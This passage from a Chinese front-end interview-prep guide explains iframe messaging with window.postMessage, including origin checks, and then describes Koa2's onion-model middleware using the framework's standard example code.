通过 `window.postMessage` 发送消息。注意第二个参数，可以限制域名，如发送敏感信息，要限制域名。

```js
// 父页面向 iframe 发送消息
window.iframe1.contentWindow.postMessage('hello', '*')

// iframe 向父页面发送消息
window.parent.postMessage('world', '*')
```

可监听 `message` 来接收消息。可使用 `event.origin` 来判断信息来源是否合法，可选择不接受。

```js
window.addEventListener('message', (event) => {
  console.log('origin', event.origin) // 通过 origin 判断是否来源合法
  console.log('child received', event.data)
})
```

#### 答案

- 使用 postMessage 通讯
- 注意跨域的限制和判断

## 15: 请描述 koa2 的洋葱圈模型

### 题目

请描述 Koa2 的洋葱圈模型

### Koa2

- 一个简约、流行的 nodejs 框架
- 通过**中间件**组织代码
- 多个中间件以”洋葱圈模型“执行

### 解释

代码参考 Koa2 官网

```js
const Koa = require('koa')
const app = new Koa()

// logger
app.use(async (ctx, next) => {
  await next()
  const rt = ctx.response.get('X-Response-Time')
  console.log(`${ctx.method} ${ctx.url} - ${rt}`)
})

// x-response-time
app.use(async (ctx, next) => {
  const start = Date.now()
  await next()
  const ms = Date.now() - start
  ctx.set('X-Response-Time', `${ms}ms`)
})

// response
app.use(async (ctx) => {
  ctx.body = 'Hello World'
})

app.listen(3000)
```

### 图示


### 划重点

- 一定要先把 "JS 异步编程" 理解透彻，否则越看越乱
